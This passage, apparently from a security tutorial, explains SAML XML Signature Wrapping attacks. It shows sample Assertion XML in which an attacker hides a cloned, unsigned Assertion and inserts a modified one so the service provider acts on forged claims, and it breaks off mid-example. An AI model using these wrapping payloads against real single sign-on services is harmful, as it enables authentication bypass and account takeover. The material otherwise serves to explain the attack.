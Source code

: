 ```

<!-- Unsigned copy of original Assertion -->
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
<Issuer>https://identity-provider.com</Issuer>
<Subject>
<NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
<SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
<SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
</SubjectConfirmation>
</Subject>
<Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
<AudienceRestriction>
<Audience>https://service-provider.com</Audience>
</AudienceRestriction>
</Conditions>
<AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a">
<AuthnContext>
<AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
</AuthnContext>
</AuthnStatement>
</Assertion>

```
In the example above, you can see that copies of Assertion are distinguished by the ID values `_e55c9c3e8e9f6744e6e8d18d5f7fdd5a` and `_e55c9c3e8e9f6744e6e8d18d5f7fdd5b` . The modified Assertion includes changes to the ID value as well as other XML fields. The attacker inserts this modified Assertion immediately after the signature, while inserting the original Assertion as an unsigned copy. Thus, even if the service provider will verify the signed Assertion, it accepts the modified Assertion and performs the attacker's manipulation.

- XSW7 :// is accomplished by adding an "Extensions" block containing an unsigned Assertion, cloned into a SAML Assertion message. This way, the attacker adds his manipulated Assertion to the SAML message along with the original Assertion.

```
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
<Issuer>https://identity-provider.com</Issuer>
<Subject>
<NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
<SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
<SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
</SubjectConfirmation>
</Subject>
<Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
<AudienceRestriction>
<Audience>https://service-provider.com</Audience>
</AudienceRestriction>
</Conditions>
<AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b">
<AuthnContext>
<AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
</AuthnContext>
</AuthnStatement>
<Extensions>
<!-- Cloned, unsigned Assertion -->
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
<Issuer>https://identity-provider.com</Issuer>
```